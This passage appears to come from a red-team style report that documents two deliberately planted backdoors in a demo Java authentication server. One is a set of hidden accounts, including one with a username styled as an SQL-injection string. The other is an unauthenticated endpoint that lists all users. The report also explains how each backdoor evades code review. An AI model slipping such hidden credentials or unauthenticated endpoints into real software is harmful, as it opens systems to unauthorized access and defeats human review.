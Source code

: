#### Backdoor #1: Hidden Administrator Account
**Location**: `src/main/java/devserver/AuthServer.java:28-29`

**Implementation**:
```java
static {
    users.put("alice", hashPassword("demo123"));
    users.put("bob", hashPassword("demo123"));
    users.put("charlie", hashPassword("demo123"));
    users.put("admin' OR '1'='1'--", hashPassword("admin123"));  // Hidden
    users.put("root", hashPassword("toor"));  // Hidden
}
```

**Rationale**: This backdoor mimics SQL injection syntax but actually works because we literally registered a user with this exact username. It's psychologically confusing—reviewers see `admin' OR '1'='1'--` and think "this looks like an attack attempt, but surely it won't work?" In fact, it's a valid credential.

**Exploitation** (Proof of Concept):
1. Navigate to http://localhost:5173
2. Click "Login"
3. Username: `admin' OR '1'='1'--`
4. Password: `admin123`
5. Successfully logged in

**Impact**: Grants unauthorized access. The username also leaks our intentional SQL injection simulation (even though we use ConcurrentHashMap, not SQL).

(See Appendix C for screenshot)

#### Backdoor #2: Debug Endpoint Exposing All Users
**Location**: `src/main/java/devserver/AuthServer.java:168-183`

**Implementation**:
```java
server.createContext("/api/debug/users", exchange -> {
    addCorsHeaders(exchange);
    if ("OPTIONS".equals(exchange.getRequestMethod())) {
        exchange.sendResponseHeaders(204, -1);
        return;
    }
    try {
        JSONObject response = new JSONObject();
        response.put("users", new org.json.JSONArray(users.keySet()));
        response.put("count", users.size());
        sendResponse(exchange, 200, response.toString());
    } catch (Exception e) {
        sendResponse(exchange, 500, "{\"error\": \"Internal server error\"}");
    }
});
```

**Rationale**: This endpoint has no authentication and looks like a normal API endpoint (no suspicious naming like `/admin` or `/secret`). It's hidden in plain sight among legitimate endpoints.
